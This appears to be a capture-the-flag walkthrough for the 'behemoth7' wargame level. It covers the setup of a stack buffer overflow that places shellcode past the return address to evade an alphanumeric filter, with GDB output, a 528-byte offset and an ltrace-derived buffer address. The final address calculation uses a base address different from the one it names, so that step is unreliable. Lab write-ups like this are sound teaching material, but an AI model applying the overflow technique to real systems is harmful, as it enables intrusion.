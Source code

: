 To solve this challenge, we can put shellcode on the stack and overwrite the return address with the address of our shellcode. However, this binary does two important things. The first is is *nullifies* all environment variables, so we cannot put shellcode within an environment variable, and the second thing it does is iterate through each byte of the input and verify that it is an alphanumeric character. If it is not, then it breaks out of the loop, prints *"Non-alpha chars found in string, possible shellcode!"*, and exits.\
These both happen before `strcpy()` is called.

To get around this, we can put the shellcode *after* the return address but still within our input. This keeps it out of an environment variable and also enables us to bypass the alphanumeric check.

### Exploit Setup:
First, we need to find the offset before we overwrite the return address. We can do this within **GDB-GEF**.
```bash
──── registers ────
$eax   : 0x0
$ebx   : 0xf7fade34  →  ",\r#"
$ecx   : 0xffffd5a0  →  "aafxaafyaaf"
$edx   : 0xffffd149  →  "aafxaafyaaf"
$esp   : 0xffffd110  →  "iaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafua[...]"
$ebp   : 0x66616167 ("gaaf"?)
$esi   : 0xffffd1d0  →  0xffffd5ac  →  0x00000000
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x66616168 ("haaf"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──── stack ────
0xffffd110│+0x0000: "iaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafua[...]"    ← $esp
0xffffd114│+0x0004: "jaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafva[...]"
0xffffd118│+0x0008: "kaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwa[...]"
0xffffd11c│+0x000c: "laafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxa[...]"
0xffffd120│+0x0010: "maafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafya[...]"
0xffffd124│+0x0014: "naafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaaf"
0xffffd128│+0x0018: "oaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaaf"
0xffffd12c│+0x001c: "paafqaafraafsaaftaafuaafvaafwaafxaafyaaf"
──── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x66616168
──── threads ────
[!] Id 1, Name: "behemoth7", stopped 0x66616168 in ?? (), reason: SIGSEGV

gef>  pattern offset 0x66616168
[*] Searching for '68616166'/'66616168' with period=4
[*] Found at offset 528 (little-endian search) likely
```
The offset is calculated to be **528-bytes**.

To find the address of where the shellcode is to overwrite the return address with, we can use `ltrace` to find the address where `strcpy()` copies the input into.

```bash
behemoth7@behemoth:/behemoth$ ltrace ./behemoth7 AAAAAAAAAA
{SNIPPED}
strcpy(0xffffd17c, "AAAAAAAAAA")
```
The input is copied into the 512-byte buffer located at **0xffffd17c**.\
To calculate the address of the shellcode, we need to add `528-bytes (offset) + 4-bytes (Return Address)` onto the address **0xffffd17c**.
```bash
0xffffcf4c + (528 + 4)
= 0xffffd160
```
